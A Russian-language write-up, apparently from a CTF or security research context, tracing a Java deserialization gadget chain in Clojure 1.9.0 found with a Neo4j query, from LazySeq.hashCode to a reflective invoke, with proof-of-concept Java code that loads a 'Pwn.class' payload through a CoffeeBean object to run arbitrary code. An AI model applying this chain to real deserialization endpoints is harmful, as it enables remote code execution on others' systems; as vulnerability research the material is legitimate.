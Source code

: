# Анализ запроса neo4j для пакета clojure.1.9.0

## Пример работы
Рассмотрим запрос 
```
    match (sink:Method {NAME:"invoke",IS_SINK:true})<-[:CALL]-(m2:Method {NAME:"invoke"})-[:ALIAS]-(m3:Method)-[:ALIAS]-(m4:Method)<-[:CALL]-(m5:Method {NAME:"sval"})<-[:CALL]-(m6:Method {NAME:"seq"})<-[:CALL]-(m7:Method {NAME:"hashCode"})
    return * 

```

Посмотрим на выданную neoj4 цепочку методов:
+ Цепочка начинается с вызова *hashCode* класса `LazySeq`, а заканчивается вызовом метода *invoke

```
clojure.lang.LazySeq.hashCode()

    public int hashCode() {
        ISeq s = this.seq();
        return s == null ? 1 : Util.hash(s);
    }
```
+ В этом методе сразу же вызывается метод *seq*. Он же и является следующим методом в цепочке.
```
clojure.lang.LazySeq.seq()

    public final synchronized ISeq seq() {
        this.sval();
        if (this.sv != null) {
            Object ls = this.sv;

            for(this.sv = null; ls instanceof LazySeq; ls = ((LazySeq)ls).sval()) {
            }

            this.s = RT.seq(ls);
        }

        return this.s;
    }

```
+ Следующим интересующим нас методом является метод *sval*, который вновь вызывается в первой строчке без каких-либо условий.
```
clojure.lang.LazySeq.sval() 

    final synchronized Object sval() {
        if (this.fn != null) {
            this.sv = this.fn.invoke();
            this.fn = null;
        }

        return this.sv != null ? this.sv : this.s;
    }
```
+ Здесь нас интересует вызов метода *invoke* интерфейса `IFn`. В цепочке же используется реализация этого интерфейса в виде класса `core$bean$fn__6906$fn__6907`. Для вызова метода *invoke* у нас стоит лишь ограничение, что хранимый объект класса `IFfn` не является *null*, что для нас не проблема, так как мы хотим у этого объекта вызывать методы.
```
clojure.lang.core$bean$fn__6906$fn__6907.invoke() 

    public Object invoke() {
        Class var10000 = (Class)((PropertyDescriptor)this.pd).getPropertyType();
        Object var10001 = ((Method)this.method).invoke(this.x, (Object[])null);
        Object var1 = null;
        return Reflector.prepRet(var10000, var10001);
    }
```
+ Вот и последний вызов *invoke*, с помощью которого можно вызвать произвольный код. Для начала обратим внимание на поля класса. Все поля имеют тип `Object`, однако ко многим применятеся каст к другим типам. Поле *pd* должно являться типом `PropertyDescriptor` для успешного каста. Можно заметить, что переменная *var10000* никак не влияет на последующий *invoke*, поэтому там может находиться всё, что угодно, что не вызывает исключений. Поля *method* и *x* непосредственно и нужны для *invoke*: для объекта *x* вызывается метод *method*. Из ограничений имеются каст *method* к `Method` (вполне очевидно) и то, что вызывать мы умеем лишь те методы, у которых нет аргументов (так как в агрументы передаётся *Object[])null*).

### Требования к LazySeq
Как итог, мы хотим, чтобы внутри `LazySeq` лежал проинициализированный `core$bean$fn__6906$fn__6907`, внутри которого
- поле *pd* можно было прикастовать к `PropertyDescriptor`
- класс поля *x* имел метод *method*, у которого нет аргуметов.
Кроме того все классы, которые мы используем должны быть сериализуемы

### Пример составления эксплойта
В качестве вызываемого метода можно взять метод *toString* класса `CoffeBean` из пакета b4bycoffee. Тогда нам необходимо создать объект класса `CoffeBean`, положить в поле с массивом байт необходимые байты для создания класса с вызовом произвольного кода, после чего положить этот экземпляр класса в `core$bean$fn__6906$fn__6907`, вместе с методом и любым дескриптором. Осталось лишь положить всё это в `LazySeq` Вот пример данного кода:

```
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        CoffeeBean toStringBean = new CoffeeBean();
        Class c = toStringBean.getClass();
        Method toString = c.getMethod("toString");
        BeanInfo info = Introspector.getBeanInfo(c);
        PropertyDescriptor pd = info.getPropertyDescriptors()[0];
        Field classByteField = c.getDeclaredField("ClassByte");
        classByteField.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("tmp/Pwn.class"));
        classByteField.set(toStringBean,bytes);
        core$bean$fn__6906$fn__6907 fn__6906$fn__6907 = new core$bean$fn__6906$fn__6907(toStringBean, toString, pd);
        LazySeq lazySeq = new LazySeq(fn__6906$fn__6907);
        lazySeq.hashCode();
    }
```
### Расширение начала цепочки до readObject

Вознокает желание начинать не с метода *hashCode*, а с метода *readObject*. Для этого можно экземпляр класса `LazySeq` положить в `HashMap`. Тогда во время *readObject* как раз вызовется необходимый *hashCode*. Прооблемой же является тот факт, что нам экземпляр класса `Method` не является `Serializable`, из-за чего у нас не получится азписать такой объект.

